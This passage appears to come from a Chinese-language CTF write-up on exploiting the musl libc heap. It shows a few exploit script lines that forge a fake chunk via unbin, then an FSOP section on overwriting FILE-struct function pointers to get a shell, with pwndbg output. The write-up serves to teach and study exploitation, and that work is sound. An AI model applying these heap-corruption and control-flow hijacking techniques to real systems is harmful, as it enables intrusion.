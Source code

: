 ```
edit(3, p64(bin - 0x10) + p64(fake_chunk))
add(0x10) # 3, unbin
add(0x50) # n+1, target
```

最后利用 unbin 将 fake_chunk 地址写到`mal.bins[38]-&gt;head`指针上，最终控制`target`。

### <a class="reference-link" name="4.3%20FSOP"></a>4.3 FSOP

泄漏 libc 基址和实现任意地址写之后，接下来考虑如何劫持程序控制流来拿 shell。musl libc 没有类似`__malloc_hook`之类可以方便劫持控制流的 hook 函数，目前可行的方法只有做 FSOP，覆盖`FILE`结构体上面的函数指针（若不考虑上面提到的非预期解）。

```
pwndbg&gt; ptype stdin
type = struct _IO_FILE `{`
    unsigned int flags;
    unsigned char *rpos;
    unsigned char *rend;
    int (*close)(FILE *);
    unsigned char *wend;
    unsigned char *wpos;
    unsigned char *mustbezero_1;
    unsigned char *wbase;
    size_t (*read)(FILE *, unsigned char *, size_t);
    size_t (*write)(FILE *, const unsigned char *, size_t);
    off_t (*seek)(FILE *, off_t, int);
    unsigned char *buf;
    size_t buf_size;
    FILE *prev;
    FILE *next;
    int fd;
    int pipe_pid;
    long lockcount;
    int mode;
    volatile int lock;
    int lbf;
    void *cookie;
    off_t off;
    char *getln_buf;
    void *mustbezero_2;
    unsigned char *shend;
    off_t shlim;
    off_t shcnt;
    FILE *prev_locked;
    FILE *next_locked;
    struct __locale_struct *locale;
`}` * const
pwndbg&gt; vmmap stdin
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x7ffff7ffb000     0x7ffff7ffc000 rw-p     1000 92000  /pwn/Debug/libc.so
pwndbg&gt;
```

